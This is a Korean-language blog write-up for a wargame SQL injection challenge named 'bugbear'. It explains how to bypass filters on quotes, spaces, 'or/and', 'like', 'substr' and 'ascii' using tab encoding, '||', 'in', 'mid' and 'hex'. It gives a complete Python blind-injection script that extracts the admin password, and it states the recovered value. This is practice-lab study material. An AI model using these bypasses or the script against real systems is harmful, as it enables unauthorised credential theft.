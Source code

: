 

# [13] bugbear

## 문제

<img  src="https://img1.daumcdn.net/thumb/R1280x0/?scode=mtistory2&fname=https%3A%2F%2Fblog.kakaocdn.net%2Fdn%2FbLtSV8%2Fbtrnpm1hg3C%2F5J4zNxs1CJ1BkZonWk6lS1%2Fimg.png">

## 풀이

preg_match에 뭐가 좀 많다.

하나하나 살펴본다.

<br>

필터링 사항이다.

① 싱글쿼터

② substr

③ ascii

④ =

⑤ or/and

⑥ 공백

⑦ like

⑧ 0x

<br> 

지금까지의 필터링 사항을 몽땅 다 집어넣었다.

<br>

추가로 like에 대한 필터링까지 적용되었는데, 이에 대한 우회 방법은 다음과 같다.

① like ⇒ in

- ex. id like "admin" ⇒ id in ("admin")

<br> 

그리고 또 한가지 특이사항이 있다.

저번 문제에서는 ascii를 ord로 우회했었다.

그러나 이번 문제에서는 or을 필터링하고 있기 때문에 ord도 해당 필터에 걸려버린다.

(이 부분을 간과해서 시간을 잡아먹었다...)

<br> 

따라서 이번 문제에서는 ascii를 **hex**로 우회해준다.

hex 함수는 이름 그대로, 문자를 ascii가 아닌 hex로 나타내주는 함수이다.

hex의 반환 타입은 string이기에 단순 숫자로 취급하여 대소 비교를 해줄 수는 없다.

때문에 in을 사용하여 문자열 일치 확인을 해줄 것이다.

이 때, 비교 대상으로 사용할 ascii값도 hex로 변환하여 비교해준다.

- ex. hex(mid(...)) in (hex(1))

<br>

한편, 준비된 쿼리문은 12번 문제와 동일하기 때문에,

쿼리문 변조 방향에 대한 상세한 설명은 이전 포스팅으로 대체한다.

 
<br>
 

이상의 내용을 반영하여 자동화 코드의 **check_length()** 를 다음과 같이 수정해준다.

```python
def check_length(url, cookie):
    head = {"PHPSESSID":f"{cookie}"}
    print("대상 문자열의 길이를 확인중입니다..")
    for num in range(0,30):
        param=f"?no=0||id%09in%09(\"admin\")%26%26length(pw)>{num}%09%23"
        my_url=url+param
        res=requests.get(my_url, cookies=head)
        if("Hello admin" not in res.text):
            return num
```
① or/and ⇒ \|\|, %26%26

② 공백 ⇒ %09

③ like ⇒ in

 
<br>
 

다음으로는 **blind_sqli()** 를 다음과 같이 수정해준다.

```python
def blind_sqli(url, cookie, length):
    head = {"PHPSESSID":f"{cookie}"}
    ans=""
    for len in range(1, length+1):
        print(f"{len}번째 문자에 대해 검색중입니다..")
        for ran in range(32,127):
            param=f"?no=0||id%09in%09(\"admin\")%26%26hex(mid(pw,{len},1))%09in%09(hex({ran}))%09%23"
            my_url=url+param
            res=requests.get(my_url, cookies=head)
            if("Hello admin" in res.text):
                print(f"{len}번째 문자 → {chr(ran)}")
                ans+=chr(ran)
                break
    return ans
```

① or/and ⇒ \|\|, %26%26

② 공백 ⇒ %09

③ like ⇒ in

④ substr ⇒ mid

⑤ ascii ⇒ hex

 
<br>
 

**수정된 Python 자동화 코드의 전문**이다.

```python
import requests

def check_length(url, cookie):
    head = {"PHPSESSID":f"{cookie}"}
    print("대상 문자열의 길이를 확인중입니다..")
    for num in range(0,30):
        param=f"?no=0||id%09in%09(\"admin\")%26%26length(pw)>{num}%09%23"
        my_url=url+param
        res=requests.get(my_url, cookies=head)
        if("Hello admin" not in res.text):
            return num

def blind_sqli(url, cookie, length):
    head = {"PHPSESSID":f"{cookie}"}
    ans=""
    for len in range(1, length+1):
        print(f"{len}번째 문자에 대해 검색중입니다..")
        for ran in range(32,127):
            param=f"?no=0||id%09in%09(\"admin\")%26%26hex(mid(pw,{len},1))%09in%09(hex({ran}))%09%23"
            my_url=url+param
            res=requests.get(my_url, cookies=head)
            if("Hello admin" in res.text):
                print(f"{len}번째 문자 → {chr(ran)}")
                ans+=chr(ran)
                break
    return ans

if __name__ == "__main__":
    print("💘 Blind 공격을 시작합니다")
    
    url=input("URL을 입력하세요:")
    cookie=input("cookie를 알려주세요:")
    
    length=check_length(url, cookie)
    print(f"👏 pw의 길이는 {length}입니다.")
    
    ans=blind_sqli(url, cookie, length)
    print(f"👏 pw의 정체는 {ans}입니다!")
    
    exit
```

<img width src="https://img1.daumcdn.net/thumb/R1280x0/?scode=mtistory2&fname=https%3A%2F%2Fblog.kakaocdn.net%2Fdn%2FbnT6Iq%2FbtrnrkVXp3E%2FB0kaNZJZYO5fBkBBsnzkh0%2Fimg.png">

Blind 공격 결과, admin의 pw는 `52dc3991` 이다.

## 결과

<img  src="https://img1.daumcdn.net/thumb/R1280x0/?scode=mtistory2&fname=https%3A%2F%2Fblog.kakaocdn.net%2Fdn%2FdC3vzR%2FbtrnktUFiVR%2FEKEDpBeOAVsMfdTukaBKY0%2Fimg.png">